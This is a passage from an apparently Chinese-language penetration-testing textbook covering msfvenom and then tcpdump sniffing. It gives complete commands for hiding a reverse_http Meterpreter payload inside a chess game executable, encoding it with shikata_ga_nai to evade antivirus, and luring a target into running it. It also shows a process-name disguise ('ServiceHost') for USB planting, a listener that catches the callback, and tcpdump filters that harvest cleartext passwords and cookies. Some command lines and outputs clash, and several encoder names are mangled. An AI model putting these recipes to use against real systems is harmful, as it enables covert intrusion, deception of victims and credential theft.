	--smaller                     Generate the smallest possible payload using all available encoders
	--encrypt                 <value>    The type of encryption or encoding to apply to the shellcode (use -l-list encrypt to list)
	--encrypt-key             <value>    A key to be used for --encrypt
	--encrypt-iv              <value>    An initialization vector for --encrypt
	-a, --arch                <arch>     The architecture to use for --payload and --encoders (use -l-list archs to list)
	--platform                <platform>The platform for --payload (use -l-list platforms to list)
	-o, --out                 <path>     Save the payload to a file
	b, --bad-chars           <list>     Characters to avoid example: \x0a\xff
	-n, --nopsled           <length>     Prepend a nopsled of [length] size onto the payload
	--pad-nops                      Use nopsled size specified by -n -lengths as the total payload size, auto-prepending a nopsled of quantity (nop ngh)
	-s, --space                 <length>   The maximum size of the resulting payload
	-l, --iterations            <count>    The number of tries to encode the payload
	C, --add-code              <path>     Specify an additional unix shellcode file to include
	t, --template               <path>     Specify a custom executable file to use as a template
	-k, --keep                        Preserve the -template behavior and inject the payload as a new thread
	v, --var-name              <value>    Specify a custom variable name to use for certain output formats
	-t, --timeout               <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
	-h, --help                        Show this message
```

使用 `msfvenom` 的关键选项是：

- `-p`：你要使用的 Metasploit payload

- `-f`：payload 的格式

- `-e`：用于掩盖 payload 性质的编码器

- `-a`：你正在针对的架构（x86、x64、Linux 等，默认为 x86）

- `-x`：你想用来嵌入 payload 的模板


为了更好地理解这些 `msfvenom` 选项，我们可以使用 `-l`（列表）开关与每个选项结合，以查看所有可能性。例如，要查看所有格式（`-f`）选项，我们可以输入：

`kali > msfvenom -l format`

```
root@kali-2019:~# msfvenom -l format
Framework Executable Formats [--format <value>]

+   - Name
  - asp
  - aspx
  - aspx-exe
  - axis2
  - dll
  - elf
  - elf-so
  - exe
  - exe-only
  - exe-service
  - exe-small
  - hta-psh
  - jar
  - jsp
  - loop-vbs
  - macho
  - msi
  - msi-nouac
  - osx-app
  - psh
  - psh-cmd
  - psh-net
  - psh-reflection
  - vba
  - vba-exe
  - vba-psh
  - vbs
  - war

Framework Transform Formats [--format <value>]

+   - Name
  - bash
  - c
  - csharp
  - dw
  - dword
  - hex
  - java
  - js_be
  - js_le
  - num
  - perl
  - pl
```

正如你在这个截图中所见，`msfvenom` 格式有两种类型，（1）可执行格式和转换格式。可执行格式将创建某种类型的可执行文件，例如 Windows `.exe` 或 Linux `.elf`。可执行格式是我们在这里关注的类型。这些创建一个可执行文件，当打开时，将触发一个 payload。转换格式将 payload 创建为不同的格式，例如 C 或 Java。转换格式用于创建你自己的漏洞利用（我们将在我即将出版的仅关注 Metasploit 的书籍《Metasploit Basics for Hackers》中涵盖这些内容）。

要查看用于掩盖 payload 性质的编码器列表，我们可以输入：


# msfvenom 编码器列表

```
root@kali:~: # msfvenom -l encoders
Framework Encoders [ -e<encoder -<value> ]
----------------------------------------------------

Name                          Rank            Description
-----                         ----            ---------------------------------------------------------
cmd/brace                     low             Bash Brace Expansion Command Encoder
cmd/echo                      good            Echo Command Encoder
cmd/generic_sh                manual          Generic Shell Variable Substitution Command Encoder
cmd/sh$                       low             Bourne (sh/sh$) Substitution Command Encoder
cmd/perl                      normal          Perl Command Encoder
cmd/powershell_base64         excellent       PowerShell Base64 Command Encoder
cmd/print p_mp_magic          manual          print( ) via Pmp magic_quotes_utility Command Encoder
generic/c16r                  manual          The C16R Encoder
generic/none                  normal          The 'none' Encoder
mipsbe/xor_xori              manual          Byte XORi Encoder
mipsbe/longxor               normal          XOR Encoder
mipsle/byte_xorx             normal          Byte XORi Encoder
mipsle/longxor               normal          XOR Encoder
php/base64                   great            PHP Base64 Encoder
ppc/longxor                  normal           PPC LongXOR Encoder
ppc/longxor_tag              normal           PPC LongXOR Encoder
ruby/base64                  great           Ruby Base64 Encoder
sparc/longxor_tag            normal           SPARC ENCODE XOR Encoder
x64/xor                      normal           XOR Encoder
x86/xor_dynamic              manual           Dynamic Key XOR Encoder
x64/zutto_dckiru             manual          Zutto Dckiru
x86/add_sub                  manual           Add/Sub Encoder
x86/alpha_mixed              low             Alapha Alphanumeric Mixedcase Encoder
x86/alpha_upper              low             Alapha Alphanumeric Uppercase Encoder
x86/avoid_underscore_tolower manual           Avoid underscore/tolower
x86/avoid_UTF8_tolower       manual           Avoid UTF8_tolower
x86/xor                      manual           BLOXor - A Metamorphic Block Based XOR Encoder
x86/bgp_polyglot             manual           BGP Polyglot
x86/c4le_dword_xor           normal          C4Le Dword XOR Encoder
x86/context_cpuid            manual           CPUCID-based Context keyed Payload Encoder
x86/context_static           manual           statC()D-based Context keyed Payload Encoder
x86/context_time             manual           time( )-based Context keyed Payload Encoder
x86/coundtow                 normal          Single-byte XOR Coundtow Encoder
x86/fifteen_xox              normal          Variable-length Fifteen/nr Dword XOR Encoder
x86/jmp_call_additive        normal          Jmp/Call XOR Additive Feedback Encoder
x86/nota1ghpa                low             Non-Alpha Encoder
x86/noupper                  low             Non-Upper Encoder
x86/opt_sub                  manual           Sub Encoder (optimized)
x86/service                  manual           Register Service
x86/shika ga_nai             excellent        Polymorphic XOR Additive Feedback Encoder
x86/single_static_bit        manual           Single Static Bit
x86/unicode_mixed            manual          Alapha Alphanumeric Unicode Mixedcase Encoder
x86/unicode_upper            manual          Alapha Alphanumeric Unicode Uppercase Encoder
x86/xor_dynamic              normal           Dynamic Key XOR Encoder
```

`kali > msfvenom -l encoders`

这些是我们混淆 payload 的方法，这样即使恶意软件被检测到，分析人员也无法确定其具体行为。请注意，这些编码器的评级与漏洞利用模块类似，从“优秀”到“手动”不等。编码器 `x86/shikata_ga_nai` 是唯一被评为“优秀”的编码器。

`Shikata_ga_nai` 非常有效，其日语名称的字面意思是“*对此无能为力*”。虽然某些防病毒软件可以检测出使用 `shikata_ga_nai` 编码的恶意软件，但截至 2019 年，安全研究人员仍在发现由国家黑客使用其编码的恶意软件。

## 可用平台

最后，让我们查看可用于自定义 payload 的平台。这里的术语与漏洞利用模块相同。通常，它是操作系统的同义词，但有一些例外（`firefox`、`hardware`、`netware` 以及其他少数几个）。

`kali > msfvenom -l platforms`

```
root@kali-2019:~# msfvenom -l platforms
```


# Framework Platforms [--platform `<value>`]

## ---Name---

`aix`

`android`

`apple_ios`

`bsd`

`bsdci`

`cisco`

`firefox`

`freebsd`

`hardware`

`hpux`

`irix`

`java`

`javascript`

`juniper`

`linux`

`mainframe`

`multi`

`netbsd`

`netware`

`nodejs`

`openbsd`

`osx`

`php`

`python`

`r`

`ruby`

`solaris`

`unifi`

`unix`

`unknown`

`windows`

现在，让我们开始创建一个文件，当目标用户打开该文件时，将执行 payload，从而让我们完全控制其系统！

我们需要做的第一件事是选择我们的 payload。

让我们使用通过 http 通信的 Windows meterpreter，使其看起来像正常的 HTTP 流量 (`windows/x86/meterpreter/reverse_http`)。

注意，我们使用的是 32 位版本 (`x86`)。我们使用 32 位版本是为了确保它可以在任何 Windows 系统（32 位或 64 位）上执行。

接下来，让我们决定将这个 payload 嵌入到一个国际象棋游戏中，并将其制作成一个 Windows `.exe` 文件。这将使我们能够通过一些基础的社会工程学手段（例如“我们来玩一个新的在线国际象棋游戏。我有一个很棒的新 3D 国际象棋游戏！”）将其发送给目标用户。

最后，让我们使用编码器 `shikata_ga_nai` 混淆我们的 payload，并让该编码器运行 10 次迭代（迭代次数越多，混淆程度越高，但文件也会变大）。

要创建这个恶意文件，我们需要输入以下内容；

```
kali > msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.114 LPORT=80 -x /root/chess.exe -e x86/shikata_ga_nai -i 10 -f exe > newchess.exe
```

```
root@kali-2019:~# msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.175 LPORT=80 -o /root/chess.exe -e x86/shikata_ga_nai -i 10 -f exe msvcchess.exe
```

```
[i] No Platform was selected, choosing Mgr::Module::Platform:Windows from the payload
[i] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders.
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 562 (iteration=0)
x86/shikata_ga_nai succeeded with size 589 (iteration=1)
x86/shikata_ga_nai succeeded with size 616 (iteration=2)
x86/shikata_ga_nai succeeded with size 643 (iteration=3)
x86/shikata_ga_nai succeeded with size 670 (iteration=4)
x86/shikata_ga_nai succeeded with size 697 (iteration=5)
x86/shikata_ga_nai succeeded with size 724 (iteration=6)
x86/shikata_ga_nai succeeded with size 751 (iteration=7)
x86/shikata_ga_nai succeeded with size 778 (iteration=8)
x86/shikata_ga_nai succeeded with size 805 (iteration=9)
x86/shikata_ga_nai chosen with final size 805
```

```
msf5 > use multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_http
PAYLOAD => windows/x64/meterpreter/reverse_http
msf5 exploit(multi/handler) > set LHOST 192.168.0.173
LHOST => 192.168.0.173
msf5 exploit(multi/handler) > set LPORT 80
LPORT => 80
msf5 exploit(multi/handler) > exploit
[*] Started HTTP reverse handler on http://192.168.0.173:80
```

当我们查看 root 目录时，我们现在应该能找到一个名为 `newchess.exe` 的文件，大小为 805 字节。

作为最后一步，我们需要准备我们的系统以接受来自目标系统的连接，当目标执行 `newchess.exe` 时。我们可以通过执行 Metasploit 所称的“multi handler”来实现。

这只是一个监听器，Metasploit 使用它来监听 payload 回连到“母舰”的信号。它将接受连接并让我们能够在目标上使用 Meterpreter。然后我们需要告诉 multi handler 接受哪种类型的 payload 连接（这必须与上述 `newchess.exe` 游戏中的 payload 相同），以及 `LHOST` 和 `LPORT`。

```
msf5> use multi/handler
msf5 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf5 > set LHOST 192.168.0.173
msf5 > set LPORT 80
```

作为最后一步，我们需要通过输入命令 `exploit` 来执行 multi handler。

```
msf5 > exploit
```

`multi handler` 现在正在我们的系统上等待 payload 通过端口 80 回连到我们。

```
root@kali-2019:-# msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.115 LPORT=80 -f exe > ServiceHost
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 636 bytes
Final size of exe file: 73802 bytes
```

现在，当目标用户点击国际象棋游戏时，它将执行 meterpreter payload，该 payload 将回连到我们的系统，并让我们在目标系统上获得一个 meterpreter shell！

# 在拥有物理访问权限时使用 Msfvenom

`Msfvenom` 非常适合创建可与社会工程学（参见第 17 章）配合使用的自定义恶意文件，但它也非常适合在拥有物理访问权限时创建用于控制目标系统的 payload。

假设你是一名间谍，并设法进入了目标的办公室和电脑。为了你所在国家政府的生存，查明那台电脑里有什么内容至关重要！

使用 `msfvenom`，我们可以创建一个简单的文件，可以在目标系统上执行，从而获得完全控制。这比创建恶意文件更简单。

在这种情况下，我们只需要指定带有其 `LHOST` 和 `LPORT` 的 payload，然后是格式（`exe`），最后是我们要创建的文件名。这里，我使用了文件名“`ServiceHost`”。这将有助于掩盖该进程的本质，因为它在一个 Windows 系统上会有一个与原生进程非常相似的名字。即使目标用户在他们的系统上看到了该进程，除非他们相当有经验，否则他们不太可能识别出它是恶意的。

```
msfvenom –p windows/meterpreter/reverse_http LHOST=192.168.0.114 LPORT=80 -f exe > ServiceHost.exe
```


在我们尝试使用此恶意软件或恶意 payload 之前，我们需要在 Kali 系统的 Metasploit 中打开一个监听器。打开 Metasploit 的交互式终端 (`msfconsole`) 并输入；

```
msf5 > use multi/handler
msf5 > set PAYLOAD windows/meterpreter/reverse_http
msf5 > set LHOST <Your IP Address>
msf5 > set LPORT 80
```

现在，我们只需要将此文件放在一个闪存驱动器上，将闪存驱动器插入目标系统并以管理员身份执行它（右键点击）以获取控制权！


```
meterpreter > sysinfo

Computer    : 0TW-PC

OS          : Windows 7 (Build 7600).

Architecture    : x64

System Language : en_US

Domain    : WORKGROUP

Logged On Users : 2

Meterpreter : x64/windows
```

回到我们的 Kali 系统，我们应该会看到 `meterpreter` 提示符出现。然后，为了确认我们在目标系统上，输入“`sysinfo`”。

成功！你现在拥有了那个系统！

# 使用 Metasploit 进行社会工程学

Metasploit 有许多模块可以与社会工程学结合使用来对付目标。

在上面，我们研究了使用 `msfvenom` 将恶意 `payload` 嵌入国际象棋游戏中。我们还将恶意 `payload` 嵌入到 Word 文档、PDF 文档、MCL 链接和网页中。有关使用 Metasploit 进行社会工程学的更多信息，请跳至第 17 章 社会工程学

# 总结

Metasploit 是一个功能强大的多用途工具，是每个立志成为黑客/渗透测试者的人的必备工具。它专为渗透测试设计，为从业者提供了一系列工具和漏洞利用。通过添加 `msfvenom`，黑客/渗透测试者可以创建内部隐藏有 `meterpreter` `payload` 的恶意文件。

# 练习：

- 1. 扫描你未打补丁的 Windows 7 系统上的开放端口
- 2. 使用 Metasploit 针对永恒之蓝（`EternalBlue`）漏洞进行漏洞扫描
- 3. 使用永恒之蓝漏洞利用来攻击你未打补丁的 Windows 7 系统
- 4. 使用 `msfvenom` 创建一个可执行文件。将该文件放在闪存驱动器上。
  将闪存驱动器带到网络上的另一台计算机并执行它。
  检查你的 Kali 系统是否获得 `meterpreter` 提示符。

# 10 网络与协议分析嗅探器

一系列持续不断的小胜将击败任何对手。

*Master OTW*

网络嗅探器——有时也称为数据包分析器、协议分析器或网络流量分析器——可以拦截并分析流经数字网络的流量。这些嗅探器对网络或安全工程师、取证调查人员，甚至在某些情况下——对黑客来说都极具价值。例如，如果应用程序通过网络明文传输密码，黑客可能能够嗅探并查看这些密码。

鉴于在当今注重安全的时代，只有少数应用程序会明文传输密码，因此嗅探器对黑客的价值显得更加微妙。

对于一些利用/攻击手段，如 DNS 攻击或中间人（`MiTM`）攻击，局域网流量的分析对其成功至关重要，这使得嗅探器不可或缺。此外，嗅探目标流量可以揭示他们访问的网站、他们的 Cookie、用户代理（`User Agent`），甚至是他们的电子邮件消息（如果邮件未加密，或者你有资源解密该消息）。

许多工具都具备网络嗅探功能，包括：

- SolarWinds 深度数据包检查和分析工具
- `Tcpdump`
- `Windump`
- `Wireshark`
- `Network Miner`
- `Capsa`
- `tshark`

在本章中，我们将使用两个最受欢迎的网络嗅探器/分析器：`tcpdump` 和 `Wireshark`。此外，我们将使用 `Wireshark` 深入挖掘 NSA 的 `EternalBlue` 漏洞利用程序，以确切理解其工作原理。

## 嗅探器的争议性使用

二十多年来，美国联邦调查局（FBI）一直使用一种被称为“`Carnivore`”的工具。该工具用于嗅探和分析涉嫌犯罪人员的流量。这极具争议性，但合法，因为它允许 FBI 在没有搜查令的情况下窃听网络流量。

## 嗅探的前置条件

必须指出的是，要有效使用网络嗅探器，你的网络接口卡（`NIC`）应处于混杂模式。这意味着你的 `NIC` 会捕获流经网络的任何数据包。

通常，`NIC` 只捕获发往其特定 `MAC`（全球唯一物理）地址的数据包。

关于网络嗅探，另一个需要理解的关键点是，嗅探的标准文件格式是 `.pcap`（数据包捕获）。这意味着你的系统必须有一个库（一段可重用的代码）来将数据包放入此格式。这些库在 Linux 系统上是 `libpcap`，在 Windows 系统上是 `Winpcap`。

## 实战中的 tcpdump

在我们考察基于 GUI 的强大嗅探器 `Wireshark` 之前，让我们简要看看命令行嗅探器 `tcpdump`。`Tcpdump` 是最早的（1988 年）基于 Linux/UNIX 的嗅探器之一。虽然它可能不是最容易使用的嗅探器，但其通用性和轻量级设计使其值得了解。如果你必须分析非基于 GUI 的系统或远程系统（在这些系统中，GUI 会显得缓慢、低效且缺乏隐蔽性），`tcpdump` 可能特别有用。

要启动 `tcpdump`，请输入：


```text
root@kali-2019:~# tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
16:07:04.062010 IP 192.168.0.235.57656 > 239.255.255.250.1900: UDP, length 174
16:07:04.064714 ARP, Request who-has (gateway) tell kali-2019.1299 (length 28)
16:07:04.06517 ARP, Reply gateway is-at b0:be:76:08:b5:3c (oui Unknown), length 46
16:07:04.066326 IP kali-2019.35533 > gateway.domain: 15131+ PTR? 250.255.255.239.in-addr.arpa. (46)
16:07:04.080311 IP gateway.domain > kali-2019.35533: 15132 NXdomain 0/1/0 (103)
16:07:04.080872 IP kali-2019.59304 > gateway.domain: 50202+ PTR? 233.0.168.192.in-addr.arpa. (44)
16:07:04.095554 IP gateway.domain > kali-2019.59304: 50202 NXdomain 0/0/0 (44)
16:07:04.096001 IP kali-2019.43942 > gateway.domain: 28517+ PTR? 1.0.168.192.in-addr.arpa. (42)
16:07:04.111351 IP gateway.domain > kali-2019.43942: 28517 NXdomain 0/0/0 (42)
16:07:04.111687 IP kali-2019.42176 > gateway.domain: 23623+ PTR? 173.0.168.192.in-addr.arpa. (44)
16:07:04.126380 IP gateway.domain > kali-2019.42176: 23623 NXdomain 0/0/0 (44)
16:07:05.006342 IP 192.168.0.235.57656 > 239.255.255.250.1900: UDP, length 174
16:07:07.507418 IP kali-2019.59304 > 224.0.0.251.5390: PTR? (QM) 192.168.0.152.in-addr.arpa. (44)
16:07:07.585756 IP kali-2019.44754 > gateway.domain: 30429+ PTR? 251.0.0.224.in-addr.arpa. (42)
16:07:07.587774 IP gateway.domain > kali-2019.44754: 30433 PTR? 224.0.0.251.192.168.0.152.in-addr.arpa. (81)
16:07:07.601171 IP gateway.domain > kali-2019.44754: 30429 NXdomain 0/1/0 (99)
```

`kali > tcpdump`

如图所示，只要你输入命令 `tcpdump`，数据包就会开始在你的屏幕上流动。

这些数据包主要是你的 Kali 系统与局域网网关之间的通信。

让我们尝试创建一些流量进行分析。例如，让我们尝试从一个终端向你的 Windows 7 系统发送一个 `ping`（ICMP 回显请求），同时从另一个终端运行 `tcpdump`。

`kali > ping 192.168.0.114`

`kali > tcpdump`

让我们放大 `tcpdump` 屏幕，以便能看清那里的细节。

```text
root@kali-2019:~# tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
16:12:05.770020 IP kali-2019 > 192.168.0.114: ICMP echo request, id 25881, seq 3, length 64
16:12:05.770314 IP 192.168.0.114 > kali-2019: ICMP echo reply, id 25881, seq 3, length 64
16:12:05.770836 IP kali-2019.44328 > _gateway.domain: 39663+ PTR? 114.0.168.192.in-addr.arpa. (44)
16:12:05.780317 IP _gateway.domain > kali-2019.44328: 39663 NXDOMAIN 0/0/0 (44)
16:12:05.798799 IP kali-2019.37659 > _gateway.domain: 53089+ PTR? 173.0.168.192.in-addr.arpa. (44)
16:12:05.804341 IP _gateway.domain > kali-2019.37659: 53089 NXDOMAIN 0/0/0 (44)
16:12:05.804701 IP kali-2019.39714 > _gateway.domain: 47919+ PTR? 1.0.168.192.in-addr.arpa. (44)
```


```text
root@kali-2019:~# tcpdump host 192.168.0.114
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
09:47:40.607043 IP kali-2019 > 192.168.0.114: ICMP echo request, id 28115, seq 7, length 64
09:47:40.607894 IP 192.168.0.114 > kali-2019: ICMP echo reply, id 28115, seq 7, length 64
09:47:41.608042 IP kali-2019 > 192.168.0.114: ICMP echo request, id 28115, seq 8, length 64
09:47:41.608845 IP 192.168.0.114 > kali-2019: ICMP echo reply, id 28115, seq 8, length 64
09:47:42.608065 IP kali-2019 > 192.168.0.114: ICMP echo request, id 28115, seq 9, length 64
09:47:42.609532 IP 192.168.0.114 > kali-2019: ICMP echo reply, id 28115, seq 9, length 64
09:47:43.609607 IP kali-2019 > 192.168.0.114: ICMP echo request, id 28115, seq 10, length 64
09:47:43.610432 IP 192.168.0.114 > kali-2019: ICMP echo reply, id 28115, seq 10, length 64
09:47:44.611175 IP kali-2019 > 192.168.0.114: ICMP echo request, id 28115, seq 11, length 64
09:47:44.611988 IP 192.168.0.114 > kali-2019: ICMP echo reply, id 28115, seq 11, length 64
09:47:45.612675 IP kali-2019 > 192.168.0.114: ICMP echo request, id 28115, seq 12, length 64
09:47:45.613553 IP 192.168.0.114 > kali-2019: ICMP echo reply, id 28115, seq 12, length 64
09:47:46.616533 IP kali-2019 > 192.168.0.114: ICMP echo request, id 28115, seq 13, length 64
09:47:46.617399 IP 192.168.0.114 > kali-2019: ICMP echo reply, id 28115, seq 13, length 64
```

如图可见，`tcpdump` 显示了协议（`ICMP`）和类型（回显请求和回显应答）。

如果我们希望将输出捕获到文件中以便以后分析，我们可以使用 `-w` 选项后跟文件名，例如：

`kali > tcpdump -w myoutput.cap`

### 按 IP 地址过滤

我们可能希望过滤掉除了来自 Windows 7 系统流量之外的所有流量。

`Tcpdump`--由加州伯克利 Lawrence Livermore 国家实验室的研究人员开发，运行于 BSD 系统

`(Berkley Software Development) Unix` 使用 Berkeley 包过滤器 (`BPF`) 格式来创建过滤器。

我们可以输入以下命令来创建针对 Windows 7 IP 地址的过滤器：`kali > tcpdump host 192.168.0.114`

现在，由于我们过滤掉了所有其他流量，你只能看到进出该 Windows 7 系统的流量。

现在，让我们从你的 Windows 7 系统连接到我们 Kali 机器上的 Apache web 服务器。首先，启动 Kali 内置的 Apache2 web 服务器。

`kali > systemctl apache2 start` 这将启动你的 Apache web 服务器。接下来，在你的 Kali 系统上再次启动 `tcpdump`。

```text
root@kali-2019:~# tcpdump host 192.168.0.114
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
09:51:51.186494 ARP, Request who-has gateway tell 192.168.0.114, length 46
09:51:51.195764 ARP, Reply gateway is-at b0:be:76:08:b5:3c (oui Unknown), length 46
09:51:58.212805 ARP, Request who-has 192.168.0.114 tell gateway, length 46
09:51:58.214731 ARP, Request who-has kali-2019 tell 192.168.0.114, length 46
09:51:58.214749 ARP, Reply kali-2019 is-at 08-00-27:9e:13:2d (oui Unknown), length 28
09:51:58.214997 IP 192.168.0.114.49744 > kali-2019.http: Flags [S.], seq 1495846102, win 8192, options [mss 1460, nop, wscale 8, nop, nop, sackOK], length 0
09:51:58.215616 IP kali-2019.http > 192.168.0.114.49744: Flags [S.], seq 1383202157, ack 1495846103, win 29280, options [mss 1460, nop, nop, sackOK, nop, wscale 7], length 0
09:51:58.215228 IP 192.168.0.114.49744 > kali-2019.http: Flags [.], ack 1, win 256, length 0
09:51:58.215496 IP kali-2019.http > 192.168.0.114.49744: Flags [P.], seq 1:441, ack 1, win 256, length 440: HTTP: GET / HTTP/1.1
09:51:58.215429 IP kali-2019.http > 192.168.0.114.49744: Flags [.], ack 237, length 0
09:51:58.216329 IP kali-2019.http > 192.168.0.114.49744: Flags [P.], seq 1:3381, ack 441, win 237, length 3380: HTTP: GET /icons/openlogo-75.png HTTP/1.1
```


```text
root@kali-2019:~# tcpdump src host 192.168.0.114
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
16:49:36.953749 IP 192.168.0.114.49895 > kali-2019.http: Flags [S.], seq 1049926987, win 8192, options [mss 1460, nop, wscale 8, nop, nop, sackOK], length 0
16:49:36.953924 IP 192.168.0.114.49895 > kali-2019.http: Flags [.], ack 1212929604, win 256, length 0
16:49:36.954000 IP 192.168.0.114.49895 > kali-2019.http: Flags [P.], seq 0:440, ack 1, win 256, length 440: HTTP: GET / HTTP/1.1
16:49:36.955526 IP 192.168.0.114.49895 > kali-2019.http: Flags [.], ack 3381, win 256, length 0
16:49:36.957218 IP 192.168.0.114.49895 > kali-2019.http: Flags [P.], seq 440:849, ack 3381, win 256, length 409: HTTP: GET /icons/openlogo-75.png HTTP/1.1
```

`kali > tcpdump host 192.168.0.114`

现在，在你的 Windows 7 系统上打开浏览器并导航到 Kali 系统的 IP 地址。

你应该开始看到数据包出现在 `tcpdump` 终端中。

请注意，我们可以看到高亮多边形中显示的三次 TCP 握手。你可以先看到一个 `S` 标志，然后是一个 `S.` 标志（`tcpdump` 用 `.` 表示 A 或 ACK 标志），然后是 `.` 标志，或者换一种写法，即 `S-SYN/ACK-ACK`。

此过滤器显示来自我们 Windows 7 系统的进出流量。如果我们只想过滤出*来自*我们 Windows 7 系统的流量，我们可以创建一个如下的过滤器：`kali > tcpdump src host 192.168.0.114`

现在，我们只能看到来自（`src`）我们 Windows 7 系统 (`192.168.0.114`) 的流量。

## 按端口过滤

如果我们想要过滤掉除发往我们 Apache web 服务器特定端口的所有流量，该怎么办？让我们尝试过滤掉除发往端口 80 (`HTTP`) 以外的所有流量。如果在 `tcpdump` 中使用 `-vv` 选项（非常详细），它将解码所有 IP 和 TCP 报头以及用户代理（用户代理通常可用于识别用户）。为了获得这些结果，我们可以编写如下的过滤器：`kali > tcpdump -vv dst port 80`

```text
root@kali-2019:~ # tcpdump -vvsst port 80
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
16:58:25.751899 IP (tos 0, ttl 128, id 26294, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.0.114.49900 > kali-2019.http: Flags [S], cksm 0xf007 (correct), seq 1277349177, win 8192, options [mss 1460, nop, nop, sackOK], length 0
16:58:25.752078 IP (tos 0x0, ttl 128, id 26295, offset 0, flags [DF], proto TCP (6), length 40)
    192.168.0.114.49900 > kali-2019.http: Flags [.], cksm 0xa647 (correct), seq 2056859370, win 256, length 0
16:58:25.752228 IP (tos 0x0, ttl 128, id 26296, offset 0, flags [DF], proto TCP (6), length 480)
    192.168.0.114.49900 > kali-2019.http: Flags [P.], cksm 0x6fff (correct), seq 0:440, ack 1, win 256, length 440: HTTP: 440
        GET / HTTP/1.1
        Host: 192.168.0.173
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
        Accept: text/html, application/xhtml+xml, application/xml;q=0.9, */*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: keep-alive
        Upgrade-Insecure-Requests: 1
        If-Modified-Since: Wed, 30 Jan 2019 07:12:29 GMT
        If-None-Match: "29cd-568a7a1fa9140-gzip"
        Cache-Control: max-age=0
```

```text
root@kali-2019:~ # tcpdump 'tcp[tcpflags]=tcp-syn'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
10:04:54.246938 IP 192.168.0.114.49750 > kali-2019.http: Flags [S], seq 4259653309, win 8192, options [mss 1460, nop, nop, sackOK], length 0
10:05:32.964650 IP 192.168.0.114.49755 > kali-2019.http: Flags [S], seq 3099950202, win 8192, options [mss 1460, nop, nop, sackOK], length 0
```

如上图所示，`tcpdump` 显示了关于流量的大量信息，包括浏览器的用户代理（用户代理可用于识别用户）。

## 按 TCP 标志过滤

如果我们只想看到设置了 SYN 标志的流量，该怎么办？我们可以创建一个这样的过滤器：`kali > tcpdump 'tcp[tcpflags]=tcp-syn'`

当然，我们可以为每个 TCP 标志创建过滤器，例如：

- `kali > tcpdump 'tcp[tcpflags]=tcp-ack'`

- `kali > tcpdump 'tcp[tcpflags]=tcp-fin'`

- `kali > tcpdump 'tcp[tcpflags]=tcp-rst'`

- `kali > tcpdump 'tcp[tcpflags]=tcp-psh'`

- `kali > tcpdump 'tcp[tcpflags]=tcp-urg'`

## 组合过滤器

`tcpdump` 允许我们使用逻辑与 (`&&`) 或逻辑或 (`||`) 来组合使用过滤器。因此，如果我们想过滤特定的 IP 地址和 TCP 端口 80，我们将创建如下的过滤器：`kali > tcpdump host 192.168.0.114 and port 80`

我们也可以使用逻辑或，例如：`kali > tcpdump host 192.168.0.114 or host 192.168.0.115`


```
root@kali:~# tcpdump -vAlo | grep 'User-Agent'
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
```

如果我们想查看除了来自特定 IP 地址传输的所有流量，我们可以使用否定符号 `!` 或 `not`。

`kali > tcpdump not host 192.168.0.114`

## 过滤密码和识别痕迹

为了过滤明文密码，我们可以为各种端口构建过滤器，然后使用 `egrep` 搜索指示登录或密码的字符串，例如：

`kali > tcpdump port 80 or port 21 or port 25 or port 110 or port 143 or port 23 -A | egrep -i 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|password='`

如果你只想过滤用户代理（用户及其浏览器的识别特征），我们可以创建如下的过滤器：`kali > tcpdump -vvAls | grep 'User-Agent'`

最后，为了仅筛选浏览器 Cookie，我们可以创建以下过滤器。

```
kali > tcpdump -vvAls | grep 'Set-Cookie|Host|Cookie:'
```

`tcpdump` 是一个功能强大的命令行工具，用于分析具有多种能力的网络流量。投入时间学习其基于 BPF 的过滤系统是非常值得的。作为安全管理员或黑客，你可能无法在远程系统上访问图形用户界面（GUI），而 `tcpdump` 则是首选工具。

### Wireshark，嗅探器的黄金标准

